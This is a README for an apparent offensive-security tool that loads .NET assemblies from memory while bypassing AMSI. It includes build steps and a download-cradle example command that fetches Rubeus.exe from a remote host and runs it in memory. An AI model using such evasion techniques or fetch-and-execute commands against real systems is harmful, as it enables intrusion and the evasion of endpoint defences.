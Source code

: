 # SharpTransactedLoad
Load .net assemblies from memory while having them appear to be loaded from an on-disk location. Bypasses AMSI and expands the number of methods available for use in loading arbitrary assemblies while still avoiding dropping files to disk - some of which provide additional functionality over the traditional Assembly.Load call.  Currently built for .net 4.5, but should be compatible with other versions.

## Building and Using
**Note**: Testing was done with an x64 build, and as a result I would recommend building the project as x64. This still allows you to reflectively load both x86 and x64 assemblies from memory.  Rather, this setting just controls the architecture of the dll itself. Although "Any CPU" appears to function as intended as well, I have no clue if any weird behavior would be exhibited when attempting to inject into an x86 process etc.

The repo consists of two projects: SharpTransactedLoad (STL) and SharperCradle.  STL contains the actual code and compiles to a .dll that can then be used in other projects.  SharperCradle is a very simple proof of concept web download cradle showing how STL can be used in a portable tool to avoid having to call Assembly.Load(byte[]).  Both projects use Costura to merge all the necessary DLLs into a single portable package.

### SharpTransactedLoad
This project builds as a DLL, and as a result it isnt something that can be directly ran.  Rather, once this is built you can add it as a reference in another project and use it by calling "STL.TransactedAssembly.Load(byte[])"
STL uses EasyHook for hooking functions.  Within the project there are currently two required EasyHook DLLs:
  - **EasyHook.dll**: sits in the SharpTransactedLoad/SharpTransactedLoad/ folder.  This is a managed DLL and handles communications with the second (unmanaged) EasyHook dll.
  - **EasyHook64.dll**: sits in the SharpTransactedLoad/SharpTransactedLoad/Costura64 folder.  This is an unmanaged DLL, and handles the actual hooking functions.

Both of these DLL's were taken straight from EasyHook, but I definitely understand folks hesitancy to blindly trust pre-compiled code.  If you opt for the more opsec route, the original DLLs can be pulled directly from EasyHook and swapped for the ones currently in the project, just make sure names align.  Also, when browsing the project you may notice the Costura32 folder does not have anything in it.  If you opt to build as x86, I would drop the DLL in there.

**Build instructions:**
  - Clean the solution to re-populate all necessary Costura + Fody packages. In Visual Studio, go 'Build' -> 'Clean Solution'.
  - (Recommended) Set your platform to x64.  In Visual Studio, select x64 from the 'Solution Platforms' dropdown near the top of the screen (likely currently set to 'Any CPU').
  - (Optional) Change deployment config to Debug or Release, as suits your needs.  Debug will print a bunch of output to the console when an assembly is loaded regarding the results of the different steps in the process, whereas release runs without printing anything.
  - Build the solution In Visual Studio, go 'Build' -> 'Build Solution'.

### SharperCradle
This serves as a PoC of how STL can be used in a project to avoid the standard Assembly.Load(byte[]) call.  Builds as a PE.

**Build instructions:**
  - Clean the solution to re-populate all necessary Costura + Fody packages. In Visual Studio, go 'Build' -> 'Clean Solution'.
  - (Required if you built STL as x64) Set your platform to x64.  In Visual Studio, select x64 from the 'Solution Platforms' dropdown near the top of the screen (likely currently set to 'Any CPU').
  - Build the solution In Visual Studio, go 'Build' -> 'Build Solution'.
  
Once built, calling is super basic - just pass the uri of the resource you're attempting to load as the first arg, with any args to be passed to the loaded assembly behind that, for example:

```
SharperCradle.exe http://192.168.1.100/Rubeus.exe Triage
```

## Credits
  - [@FuzzySec]( https://twitter.com/FuzzySec): Prior work on hooking with EasyHook - specifically [Dendrobate]( https://github.com/FuzzySecurity/Dendrobate), from which I based this project off of.
  - [@Anthemtotheego]( https://twitter.com/anthemtotheego): Guidance on Transactional NTFS + [SharpCradle]( https://github.com/anthemtotheego/SharpCradle), which the SharperCradle PoC was based off of.
